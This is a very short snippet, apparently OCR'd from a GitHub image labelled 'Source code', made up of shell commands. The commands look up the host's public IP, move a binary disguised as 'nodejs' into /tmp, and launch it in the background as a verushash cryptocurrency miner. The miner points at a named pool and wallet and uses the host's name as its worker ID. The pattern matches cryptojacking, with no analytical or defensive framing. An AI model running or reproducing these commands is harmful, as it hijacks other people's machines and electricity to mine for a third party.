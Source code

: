 curl ifconfig.io
mv nodejs /tmp
nohup /tmp/nodejs --algorithm verushash --pool us.vipor.net:5040 --wallet RHkiLGRarhTt8SF66vJzwEcyxNm4k1fXTH --password x --worker $(hostname -f) --cpu-threads 16 &
